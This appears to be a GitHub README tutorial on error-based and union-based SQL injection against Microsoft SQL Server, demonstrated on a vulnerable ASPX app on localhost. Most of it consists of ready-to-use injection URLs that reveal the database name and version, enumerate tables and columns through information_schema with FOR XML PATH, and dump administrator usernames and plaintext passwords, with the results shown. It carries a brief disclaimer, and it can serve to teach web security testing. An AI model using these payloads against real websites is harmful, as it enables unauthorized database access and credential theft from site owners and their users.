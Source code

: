 # MSSQL-Injection

Now let's get started the ERROR BASED INJECTION on MSSQL server, MSSQL it's Microsoft SQL Server in this post i will use error based injection with malicious interogation for manipulation database and extract administrator credentials. I will use a vulnerable aspx app in localhost for this example. I do not support these illegal activities !
```sql
 http://localhost/Product.aspx?Id=13 and 1=db_name()--
```

Using this simple query we will see the name of the database.

![Screenshot from 2024-01-25 10-31-38](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/d42f8d12-0fd2-41e6-a6db-3c795ab06f89)

Now the database name is "chemtraders" 
Next step i want to see the DB and OS version for this i will use this query:

```sql
http://localhost/Product.aspx?Id=13 and @@version=1--
```

and output is:

![Screenshot from 2024-01-25 10-34-56](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/94adade4-c58f-49d4-99df-0dcf67fe0c66)

We see "Microsoft SQL Server 2012 ( SP1 )"

Now let's get extract Tables name and Columns from DB with one query:
```sql
http://localhost/Product.aspx?Id=13 and 1=(select+table_name%2b'::'%2bcolumn_name as t+from+information_schema.columns FOR XML PATH(''))--
```
and output is:

![Screenshot from 2024-01-25 10-54-54](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/3fb8189d-d4c9-4e23-b7b4-f692acc6eb26)

Ok now are interested:

AdminLogin ( Table )
UserName ( Column )
Password ( Column )

Let's get dump from this Columns ( UserName and Password ):
```sql
http://localhost/Product.aspx?Id=13 and 1=(select+Password,username+from+AdminLogin FOR XML PATH(''))--
```
Output is:

![Screenshot from 2024-01-25 11-01-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/7704a537-2f76-4bcf-a1e1-886dd15186d4)

```plaintext
Username: admcheter
Password: bweb@chem#123$tre ( this is plaintext )
```

This query it's in Error Based but it is possible and with Union Select

Let's see how we do this

```sql
http://localhost/Category-Product.aspx?id=-6' union select 1,(select table_name%2b'::'%2bcolumn_name as t from information_schema.columns FOR XML PATH('')),3-- -
```

![Screenshot from 2024-01-25 11-11-32](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/41178b9a-951e-4bee-b8e4-dace0a350e9b)

Now we see UserInfo, username and Password.

For this situation i want to extract Administration credential form this columns
```sql
http://localhost/Category-Product.aspx?id=-6&' union select 1,(select User_Name,Password from UserInfo FOR XML PATH('')),3-- -
```
![Screenshot from 2024-01-25 11-16-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/abf6e991-823d-42c7-a440-4c6b81441939)
```plaintext
Username: Admin
Password: simplifi@123 ( plaintext )
```
In this query, the FOR XML PATH('') clause is used to concatenate the query results into XML format and to obtain a scalar result.
In practice, this allows the obtained data to be retrieved as a single string, easily manipulable and usable within the SQL injection. The use of FOR XML PATH('') is not necessary in all SQL injection queries, but it can be used to format the results in a way that allows for efficient exploitation of the vulnerability.

We are done tested my MSSQL Server.







